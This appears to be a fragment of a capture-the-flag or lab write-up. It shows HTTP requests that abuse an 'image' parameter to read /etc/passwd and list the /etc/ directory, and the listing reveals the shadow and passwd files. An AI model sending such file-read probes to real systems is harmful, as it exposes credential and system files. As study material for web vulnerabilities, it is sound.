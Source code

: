 ### Request
```html
GET /photos?image=/etc/passwd HTTP/1.1
```

### Response
```html
<pre>
    /etc/passwd
</pre>
```
We get a filename back.
And I made a request with directory /etc/.

### Request with /etc/
```html
GET /photos?image=/etc/ HTTP/1.1
```

### Response
```html
<pre>alpine-release
apk
bindresvport.blacklist
ca-certificates
ca-certificates.conf
conf.d
crontabs
fstab
group
hostname
hosts
init.d
inittab
inputrc
issue
krb5.conf
logrotate.d
modprobe.d
modules
modules-load.d
motd
mtab
netconfig
network
opt
os-release
passwd
periodic
profile
profile.d
protocols
resolv.conf
securetty
services
shadow
shells
ssl
sysctl.conf
sysctl.d
terminfo
udhcpd.conf
</pre>
```